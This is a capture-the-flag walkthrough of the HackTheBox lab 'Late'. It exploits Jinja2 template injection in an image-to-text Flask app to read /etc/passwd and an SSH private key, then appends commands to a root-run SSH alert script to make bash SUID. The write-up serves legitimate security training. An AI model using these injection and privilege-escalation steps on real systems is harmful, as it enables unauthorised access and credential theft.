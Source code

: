 ```yaml
---
layout: post
title: "HTB: Late"
author: Andrew Cherney
date: 2023-01-12 20:48:24
tags: htb easy-box webapp ssti flask bash linux suid
icon: "/assets/icons/late.png"
post_description: "Late was a box with practically two parts. The first was to identify the image upload function on the http site was vulnerable to SSTI and crafting an image to serve as the payload. The second was to find an SSH login alert bash script that was run as root and writable by everyone."
---
```


<h1>Summary</h1>

Late is an easy difficulty box with practically two parts. The first was to identify the image upload function on the http site was vulnerable to SSTI and crafting an image to serve as the payload. The second was to find an SSH login alert bash script that was run as root and writable by everyone. 

<h1>Enumeration</h1>

This box I decided to try <code>rustscan</code> to scan for open ports and services. It's effectively a wrapper around <code>nmap</code> which allows for additional functionality and faster scanning, but in my case I use it for the latter of those reasons. 

<h2>rustscan</h2>

```bash
rustscan 10.10.11.156 | tee results.scan
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    syn-ack ttl 62 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
```

<h2>Port 80 - Nginx</h2>

![late.htb](/img/late/late_htb_site.png)

![late.htb FAQ](/img/late/late_htb_FAQ.png)

Taking a look around we can quickly find in the FAQ a link to the online photo editor. That specific link directs to <code>images.late.htb</code>. Now I can add the domain and subdomain to my <code>/etc/hosts</code> file:

```
10.10.11.156 late.htb images.late.htb
```

![images.late.htb](/img/late/late_htb_images.png)

After adding that subdomain to my hosts file, we are presented with a page to turn an uploaded image into text. There is one major indicator of our next step and it lies within the header at the top: Flask. 

<h1>Foothold</h1>

Before we get ahead of ourselves we could test this pages functionality. I throw a cat picture at the text converter as a sanity check:

![cat upload test](/img/late/late_htb_test_upload.png)

That is exactly as expected, now let's create a simple image with text to determine if this is vulnerable to SSTI and if it properly handles regular text. 

![SSTI test payload](/img/late/late_htb_test_payload.png)

![SSTI test response](/img/late/late_htb_test_payload_response.png)

Great, my suspicions were confirmed and now we can move onto the next part. 

<h2>Flask and SSTI</h2>

Now in short, Flask is a python based web framework which is notoriously vulnerable to one type of attack: Server Side Template Injection. The framework integrates the use of templates, which allow for importing data from various pages and parts of a site. For example this site itself uses layout pages that contain \{\{ content \}\} to import the referencing page's information. Another functionality of those templates is the ability to run code and commands with the language natively used within the framework. 

For the test payload I used \{\{7*7\}\} which if the application is SSTI vulnerable will calculate the result, which is the 49 we received in the response. 

There is one slight problem however when it comes to SSTI on Flask, and that is navigating python objects and inheritance trees. In order to run commands or code through templates we need to crawl through the Python environment to find classes useful to us. In some cases it can be as simple as throwing a pre-generated cheatsheet payload template at Flask, and in others is can look something like \{\{‘’.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[284:]\}\} and the only way to find out is by enumerating the classes used in the application. 

Get it? Good, because all of that paragraph above is worthless since the [cheatsheet templates below](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-) I tested against it worked ... 

![SSTI /etc/passwd read](/img/late/carbon_(61).png)
![SSTI ssh key read](/img/late/ssh_payload.png)

When you give the upload an SSTI payload it returns the results of the payload. In the second payload's case that would be the ssh key for the account running the site. A soft blessing ends up working in my favor, as the test payload to read <code>/etc/passwd</code> shows me the potential names for accounts to ssh into, the winner of those being svc_acc.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa
svc_acc@late:~$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
```

<h1>Root</h1>

Since this is an easy box it's safe to assume linpeas will likely churn out my next step, and would you look at that a bash script in <code>/usr/local/sbin</code>

![linpeas scan](/img/late/late_htb_linpeas.png)

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

The script is sending an email to the presumptive root email for every SSH login. Now I have two options, I can scour the machine to determine who is running this script, or I can append <code>whoami</code> to the script and log back in.

```bash
svc_acc@late:~$ echo 'whoami | tee /tmp/user' >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa 
svc_acc@late:~$ cat /tmp/user
root
```

Well if root is running this script our priv esc is as simple as modifying bin bash to be an SUID, making it run as the owner root. 

```bash
svc_acc@late:~$ echo 'chmod u+s /bin/bash' >> /usr/local/sbin/ssh-alert.sh 
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa 
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

And with that I can read the root.txt flag in the root directory and pwn the box.
